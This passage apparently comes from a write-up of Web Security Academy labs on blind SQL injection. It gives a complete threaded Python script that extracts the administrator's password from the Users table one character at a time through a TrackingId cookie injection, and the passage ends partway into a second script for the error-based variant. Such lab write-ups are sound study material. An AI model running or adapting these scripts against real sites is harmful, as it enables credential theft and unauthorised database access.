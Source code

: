 or we will do a python script:

```python
import requests
import string
import threading
from concurrent.futures import ThreadPoolExecutor


URL = "https://<YOUR_LAB>.web-security-academy.net/"
TRACKING_ID = "etr8D5oM5eXvzJHM"
SESSION_COOKIE = "eK5gCdC9nwrt48tgUJ15JaHMkyrL00QR"
SESSION_INDICATOR = "Welcome"
charset = string.ascii_letters + string.digits
password_length = 20
max_threads = 10

result = [""] * password_length
lock = threading.Lock()

def try_char(position, char):
    injection = f"{TRACKING_ID}'+AND+SUBSTRING((SELECT+Password+FROM+Users+WHERE+Username='administrator'),{position + 1},1)='{char}'--"
    cookies = {
        "TrackingId": injection,
        "session": SESSION_COOKIE
    }

    response = requests.get(URL, cookies=cookies)

    if SESSION_INDICATOR in response.text:
        with lock:
            result[position] = char
            print(f"[+] Found char at pos {position+1}: {char}")

for i in range(password_length):
    print(f"[*] Brute-forcing position {i+1}")
    with ThreadPoolExecutor(max_workers=max_threads) as executor:
        futures = [executor.submit(try_char, i, c) for c in charset]

        while not result[i]:
            pass

print(f"\n[✓] Final result: {''.join(result)}")
```

#### Lab: Blind SQL injection with conditional errors

- Pretty similar to previous, but we will use error

```python
import requests
import string
import threading
from concurrent.futures import ThreadPoolExecutor


URL = "https://<YOUR_LAB>.web-security-academy.net/"
TRACKING_ID = "jBnfoC013ViR3EJQ"
SESSION_COOKIE = "jlyyjhsmxe2r32wppvaopvgegpp9rtap"
STOP_INDICATOR = 500
charset = string.ascii_letters + string.digits
password_length = 20
max_threads = 10

result = [""] * password_length
```